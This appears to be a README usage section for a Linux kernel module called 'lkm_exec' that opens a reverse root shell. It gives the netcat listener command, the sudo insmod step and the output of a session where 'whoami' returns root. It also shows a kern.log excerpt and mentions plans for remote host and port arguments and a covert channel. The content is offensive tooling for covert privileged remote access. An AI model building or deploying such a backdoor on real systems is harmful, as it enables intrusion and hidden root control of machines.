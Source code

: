 ## Usage

In a terminal (denoted T1):

| T1 |
|---|
```
nc -nvklp 1234
      Listening on 0.0.0.0 1234
```

and in another terminal (this time denoted T2):
| T2 |
|---|

`sudo insmod lkm_exec.ko` - *this will later change into arguments you actually can pass to it; like RH and RP. As well as a (covert) channel of choice*


(and go back to **`T1`**)
| T1 |
|---|

```
nc -nvklp 1234
    Listening on 0.0.0.0 1234
    Connection received on 127.0.0.1 47600

whoami
    root

exit
```

**How does the kern.log file look now?**
```
user@nvidia_VFIO_ws:/lkm3$ cat /var/log/kern.log 
  lkm_exec          [on]   <-- module is loaded by `sudo insmod`
  lkm_exec START P1 [*]    <-- module's start function 'START' is called
  lkm_exec START P2 [*]    <-- START completed. Output redirected. Cleaning up.
  lkm_exec          [off]  <-- exit, unloading module.
```
